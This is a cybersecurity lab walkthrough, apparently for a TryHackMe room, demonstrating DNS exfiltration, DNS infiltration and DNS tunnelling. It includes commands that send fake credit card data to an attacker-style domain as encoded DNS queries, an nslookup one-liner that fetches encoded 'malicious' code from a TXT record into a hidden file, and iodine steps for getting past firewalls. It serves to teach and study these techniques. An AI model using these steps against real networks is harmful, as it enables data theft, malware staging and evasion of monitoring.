#  Introduction                            

In this room, we will look into DNS and showcase the techniques used to exfiltrate and infiltrate data.  First, we will look at what purposes DNS serves, how it works, and the  types of DNS records.


The image below illustrates a basic DNS lookup. Here the client machine reaches out to a DNS server to resolve a Fully Qualified Domain Name (FQDN) to an IP address.




We will then move to how DNS is being used as a "Data Exfiltration" and "Data Infiltration" tool via DNS queries.




And finally, we will look at DNS Tunneling and how it is used to 'tunnel' different protocols like (HTTP) through DNS.

#  Installation

[ Python code used for DNS Exfiltration and Infiltration ]

I have created a few simple scripts written in Python for you to complete this walkthrough. This will allow us to make DNS queries to a remote DNS Server.
 `git clone https://github.com/kleosdc/dns-exfil-infil`

Also, make sure you have the required Python3 modules in order to run the python code.

Use the following command to install the required modules:

```shell
sudo pip3 install -r requirements.txt
```

[ Program used for DNS Tunneling ]

https://github.com/yarrick/iodine

```shell
sudo apt install iodine
```

[ Download Wireshark ]

You may use Wireshark or tshark to capture packets. The python code uses .PCAP file to extract the captured data and then decode it.
 https://www.wireshark.org/download.html

```shell
sudo apt install -y tshark
```

# [Setup] Custom Public DNS Server                            

If you would like to set up the same environment as me, you will need to have a **Public Domain Name** and a **Public Server**.

I won't be expanding on purchasing a domain name or provisioning public  facing server as it's not necessary to complete this room.

However, **STOK** has created an excellent tutorial on how to set everything up for OOB (Out of Band) data exfiltration: [STOK's video](https://www.youtube.com/watch?v=p8wbebEgtDk)

# What is DNS?

At a high level, a Domain Name System refers to a naming system that resolves domain names with IP addresses. DNS servers are distributed all across the world and they are constantly  being updated and synced amongst each other in a systematic way. When a  user makes a request using a domain name such as [tryhackme.com](http://tryhackme.com), DNS 'translates' this to its IP address then ultimately supplies the  requester with the correct IP address. It's also worth noting that in  some scenarios the IP address returned by DNS won't always be the origin server's IP address If DNS records are being proxied by a service such  as Cloudflare's DDoS protection.

Technically, every device  connected to the internet has an IP address which acts as an identity  when communicating with other internet devices. Therefore, it is  essential to understand that the DNS's primary function and the  hierarchy the 'translation' traverses.

DNS root name servers sit at the top or 'root' of the DNS hierarchy and  play a critical role for the Internet. Information for all the top level domain (TLD) 'zones' such as .com, .co.uk, .net and their associated  name servers are housed in the hundreds of root name servers that are  distributed across the world.

Below is an illustration from Cloudflare to better picture this hierarchy.



Source: https://www.cloudflare.com/learning/dns/glossary/dns-root-server/

Here are some resources that contain more information on root servers and DNS zones:

https://www.cloudflare.com/learning/dns/glossary/dns-root-server/

https://www.cloudflare.com/learning/dns/glossary/dns-zone/

https://www.iana.org/domains/root/servers

There are more DNS Record types. However, they won't be necessary to know in order to complete this walkthrough.

If you would like to learn more about DNS Record Types, please refer to this article:

https://www.cloudflare.com/learning/dns/dns-records/.



#  What is DNS Exfiltration?                            

DNS Exfiltration is a cyberattack on servers via the DNS, which can be  performed manually or automatically depending on the attacker's physical location and proximity to the target devices. In a manual scenario,  attackers often gain unauthorized physical access to the targeted device to extract data from the environment. Whereas in automated DNS  exfiltration, attackers use malware to conduct the data exfiltration  while inside the compromised network.

DNS is a service that will usually be available on a target machine and  allowing outbound traffic typically over TCP or UDP port 53. This makes DNS a prime candidate for hackers to use for exfiltrating data.

Data exfiltration through DNS could allow an attacker to transfer a large volume of data from the  target environment. Moreover, DNS exfiltration is mostly used as a  pathway to gather personal information such as social security numbers,  intellectual property, or other personally identifiable information.

DNS exfiltration is mostly used by adding strings containing the desired  'loot' to DNS UDP requests. The string containing the loot would then be sent to a rogue DNS server that is logging these requests. To the  untrained eye this could look like normal DNS traffic or these requests  could be lost in the shuffle of many legit DNS requests.

## DNS Exfiltration - Demo

In this  example scenario an attacker is trying to exfiltrate data to their  system and decided their best option is going to be using DNS queries. The attacker's goal is to exfiltrate sensitive information  from a machine on SecureCorp's network. In this demo I will be showing  the steps that an attacker might take in order to exfiltrate this data  from the compromised machine.



**The following material has been generated through a fake credit card generator. All credit card information is fake.**

The files used for this demo are in my dns-exfil-infil repo on GitHub. You will need files to complete the rest of the room.


1. securecorp.txt (https://github.com/kleosdc/dns-exfil-infil/blob/main/securecorp.txt)
2. packety.py (https://github.com/kleosdc/dns-exfil-infil/blob/main/packety.py)
3. packetGrabber.py (https://github.com/kleosdc/dns-exfil-infil/blob/main/packetyGrabber.py)

1. Text file containing fake credit card numbers, names, addresses.



2. packety.py ( https://github.com/kleosdc/dns-exfil-infil )

When [packety.py](http://packety.py/) is executed, you will need to supply the script with the following input:

 **Filename**: ( This is the file(Text file RECOMMENDED) that you are trying to exfiltrate from SecureCorp's Network )

 **Domain name**: ( This is where you are going to put your domain name, example my domain name is badbaddoma.in )



```powershell
python packety.py

Filename: securecorp.txt

Domain Name (Example: badbaddoma.in): badbaddoma.in

[+] Reading file.

[+] Base64 encoded.

[+] Base58 encoded.

Start transmitting... [PRESS ENTER KEY]
```

The code starts off by reading from the text file. The text file's content  will first be Base64 encoded and then Base58 encoded. This leaves us  with a long encoded string. The string is then split into 20 character  long sections where each section will have 3 'dummy' characters added to it for further obfuscation. One character will be prepended to the  encoded string and two characters will be appended.

For example, a section of the encoded data might look like this: '**6gfghhjywsas3rg4hda3**'. After the extra characters are added it will end up being '**x6gfghhjywsas3rg4hda3yu**'.

Once everything is encoded and ready, the code will wait  for the user to press "ENTER" in order to start transmitting the queries to the DNS Server. The DNS Server would have already been setup to capture the incoming requests with 'Wireshark' or 'tshark'.



Then it's just a matter of waiting for the transmission to reach 100%. If  any of the queries are not delivered on time and in the right order the  exfiltrated data will be incomplete and useless to the attacker.





3. packetyGrabber.py ( https://github.com/kleosdc/dns-exfil-infil )

The code will ask the user the following input:

**File captured**: This is the .pcap file that you captured on your DNS Server.

**Filename output**: This is the file name where the decoded data will be saved.

**Domain name**: This will be your domain name.



```shell
python3 ~/tools/packety/packetyGrabber.py
File captured: cap-credit-cards.pcap
Filename output: credit-cards.txt
Domain Name (Example: badbaddoma.in): badbaddoma.in
[+] Domain Name set to badbaddoma.in
[+] Filtering for your domain name.
[+] Base 58 decoded.
[+] Base 64 decoded.
[+] Output to credit-cards.txt
```

If all goes well where no queries have been lost and all the input is  correct; a file with the decoded data will be saved in the same  directory you ran the code from.



### DNS Exfiltration - Practice

To filter dns name using tshark

```shell
tshark -r name of the file.pcap -T fields -e dns.qry.name
```





# What is DNS Infiltration?

DNS infiltration is another method used by attackers to exploit the various vulnerabilities within an organization's Domain Name System. Unlike the exfiltration attacks on the DNS, infiltration defines the process where malicious code is ran to  manipulate DNS servers either using automated systems where attackers  connect remotely to the network infrastructure or manually.

DNS infiltration is primarily used for file dropping or malware staging  efforts. With behavioral, signature based, or reputation based threat  detection systems it's possible this attack method could be caught.

However, if this method of transporting data goes unnoticed it  could lead to malicious activity such as code execution in  organization's environment. Historically, this has caused havoc and  disruption for various well known companies.

In summary, the DNS protocol could be used as a covert protocol that could aid in malware  staging and execution efforts to communicate back to an attacker's C2  (Command and Control) server/s. In the next task we will explore how to  could be achieved.

## DNS Infiltration - Demo                            

In this scenario the attacker is going to infiltrate a piece of 'malicious' code onto the victim's computer. There are many different  techniques that attackers in the real world use to achieve this. To  simplify things, I will be using a TXT Record that is setup on my public AWS DNS Server. The value contained in this record is encoded 'malicious' code.

Since TXT Records are limited to 255 characters the hackers will most likely have multiple TXT Records configured for their DNS Server. This ultimately depends on how long their code is. Now that  everything is setup and ready; all the hacker needs to do is request  those TXT Record/s, capture the value/s, decode them and boom.. they now have infiltrated their own code into a compromised system via DNS TXT  Records.



You can see my TXT Record below.



Files used for this demo

1. `nslookup`

This will first look up the TXT record for rt1.badbaddoma.in, then get the value within the quotes, and finally it will save the value into a file named '.mal.py'.

```shell
nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py
```

2. packetSimple.py ( https://github.com/kleosdc/dns-exfil-infil )

When the code asks you for a 'Filename' enter the filename '.mal.py'. This is the file that we saved the encoded value in.



```shell
python3 ~/packetySimple.py
Filename: .mal.py
[+] Reading from file...
[+] Base58 decoded.
[+] Base64 decoded.
[+] Done, .mal.py is decoded.
```

### DNS Infiltration - Practice



# DNS Tunneling

In the previous two tasks we've seen how DNS requests and responses could be used to infiltrate and execute  payloads. Companies will typically have Firewalls, an IDSs (Intrusion  Detection Systems) and/or and IPSs (Intrusion Protection Systems) in  place in order prevent/alert when unwanted inbound and outbound  protocols pass through their network. The one protocol that is rarely  monitored by companies is DNS. Because of this, hackers are able to  bypass a lot of the 'unwanted' protocols by using DNS tunneling.

### Demo

For this demo we'll explore how a hacker could bypass various restricted websites by using HTTP over DNS. To achieve this I will be using 'Iodine'. You can read more about 'Iodine' here: [Iodine](https://code.kryo.se/iodine/).



My setup is as follows:

- I have an AWS Hosted Linux machine that will be the DNS Tunnel Server.
- Ubuntu VM running on my local computer that will be the DNS Tunnel Client.
- Public Domain Name hosted on Google Domains ([badbadtunnel.in](http://badbadtunnel.in/))

This is what the DNS Configuration looks like:



To get started, both machines need to have iodine installed. If you are on a Debian based distribution such as Kali it will be in their apt  repositories.

```shell
sudo apt install iodine
```

**iodine** - Client

**iodined** - Server

On the AWS server we start the iodined with the following arguments:



**Port** - 27001

**IP for DNS Tunnel Server** - 10.0.0.1

**Subdomain name** - tunnel.badbadtunnel.in

Now on our Client machine we run iodine with these arguements:



**IP of DNS Tunnel Server**

**Subdomain name**

If everything is setup correctly we should now have connection the our DNS Tunnel Server. We can try to ping 10.0.0.1 (DNS Tunnel Server) to see if we are connected.

